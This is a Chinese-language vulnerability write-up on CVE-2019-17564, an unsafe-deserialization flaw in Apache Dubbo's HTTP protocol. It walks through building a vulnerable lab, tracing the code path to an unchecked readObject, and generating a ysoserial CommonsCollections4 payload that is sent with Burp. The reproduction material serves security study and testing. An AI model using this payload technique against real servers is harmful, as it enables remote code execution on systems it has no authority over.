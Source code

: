 （CVE-2019-17564）Apache Dubbo 反序列化漏洞
===========================================

一、漏洞简介
------------

`Apache Dubbo`支持多种协议，推荐官方使用`Dubbo`协议。`Apache Dubbo HTTP`协议中的一个反序列化漏洞（CVE-2019-17564），漏洞该主要原因的在于当`Apache Dubbo`启用`HTTP`协议之后，`Apache Dubbo`对消息体处理不当导致不安全反序列化，当项目包中存在可用的`gadgets`时即可导致远程代码执行。

二、漏洞影响
------------

2.7.0 \<= Apache Dubbo \<= 2.7.4.12.6.0 \<= Apache Dubbo \<= 2.6.7Apache Dubbo = 2.5.x

三、复现过程
------------

-   1.环境建设

为了环境搭建方便，访问`dubbo-samples`的github项目主页（https://github.com/apache/dubbo-samples）

下载源码以后，分离出http部分

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId24.png)

修改pom.xml中32行`dubbo.version`

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId25.png)

修改其为漏洞版本,以2.7.3为例,随后在Idea中开启即可修改JDK版本为1.8

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId26.png)

随后导入一个可控的gadgets用于分析,例如`commons-collections4-4.0`,并启动`HttpProvider`

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId27.png)

##### 注:Dubbo启动依赖zookeeper,这部分使用不再赘述,请自行查阅google

-   2.漏洞分析

我们进入`org.apache.dubbo.remoting.http.servlet.DispatcherServlet`在43行`handler.handle(request, response);`处打入断点，利用burp进行发包跟踪它的走向

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId29.png)

随后发现其进入`org.apache.dubbo.rpc.protocol.http.HttpProtocol`中的`handle`

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId30.png)

进一步跟踪

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId31.png)

最终进入`org.springframework.remoting.rmi.RemoteInvocationSerializingExporter`

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId32.png)

该ois对象来源为报文中post
data部分,对于传入的ois并没有做任何安全过滤和检查,直接就行了`readObject`方法导致RCE产生.

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId33.png)

很多人不太理解Java反序列化漏洞怎么rce,这里给出一段示例代码

使用`ysoserial`随意生成一个序列化文件,再利用下面的代码读取该序列化文件即可达到效果,可见直接使用`readObject`方法的危害

    import java.io.FileInputStream;
    import java.io.ObjectInputStream;

    public class test1 {
        public test1() {
        }

        public static void main(String[] args) throws Exception {
            FileInputStream fis = new FileInputStream("/Users/xue/Documents/NetSafe/Tools/JavaTools/1.ser");
            ObjectInputStream ois = new ObjectInputStream(fis);
            ois.readObject();
        }
    }

-   3.漏洞复现

ysoserial下载地址：http://wiki.0-sec.org/download/ysoserial.zip

利用ysoserial生成payload

    java -jar ysoserial-master-30099844c6-1.jar CommonsCollections4 "calc" > payload.out

将payload粘贴至burp中

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId34.png)

![](./.resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId35.gif)

参考链接
--------

> https://qiita.com/shimizukawasaki/items/39c9695d439768cfaeb5
>
> https://www.cnblogs.com/wh4am1/p/12307848.html
